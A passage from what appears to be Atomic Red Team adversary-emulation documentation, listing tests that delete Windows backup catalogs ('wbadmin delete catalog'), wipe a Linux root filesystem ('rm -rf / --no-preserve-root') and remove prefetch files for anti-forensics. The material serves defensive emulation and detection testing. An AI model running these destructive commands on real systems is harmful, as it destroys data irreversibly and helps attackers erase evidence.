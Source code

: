 
<br/>
<br/>

## Atomic Test #11 - wbadmin
This test deletes Windows Backup catalogs.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wbadmin delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #12 - Delete Filesystem - Linux
This test deletes the entire root filesystem of a Linux system. This technique was used by Amnesia IoT malware to avoid analysis. This test is dangerous and destructive, do NOT use on production equipment.

**Supported Platforms:** Linux





#### Attack Commands: Run with `bash`! 


```bash
rm -rf / --no-preserve-root > /dev/null 2> /dev/null
```






<br/>
<br/>

## Atomic Test #13 - Delete-PrefetchFile
Delete a single prefetch file.  Deletion of prefetch files is a known anti-forensic technique.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
